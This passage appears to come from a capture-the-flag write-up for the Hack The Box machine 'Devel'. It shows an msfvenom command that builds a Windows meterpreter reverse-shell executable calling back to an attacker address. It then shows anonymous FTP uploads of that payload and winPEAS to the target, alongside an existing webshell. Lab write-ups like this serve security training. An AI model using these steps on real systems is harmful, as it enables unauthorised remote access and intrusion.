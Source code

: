 We get access to the webshell:

![ImgPlaceholder](screenshots/webshell.png)

We create a reverse meterpreter executable:

```
user@kali:~/hackthebox/hackthebox/devel/upload$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.27" LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

We upload this executable and winPEAS.cmd using FTP to the host:

```
user@kali:~/hackthebox/hackthebox/devel/upload$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put shell.exe
local: shell.exe remote: shell.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
73802 bytes sent in 0.00 secs (612.0267 MB/s)
ftp> put winPEAS.bat
local: winPEAS.bat remote: winPEAS.bat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
32976 bytes sent in 0.00 secs (655.1743 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
01-06-21  10:16PM                 1442 cmdasp.aspx
03-17-17  04:37PM                  689 iisstart.htm
01-06-21  11:27PM                73802 shell.exe
01-06-21  10:06PM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
01-06-21  11:11PM                32976 winPEAS.bat
```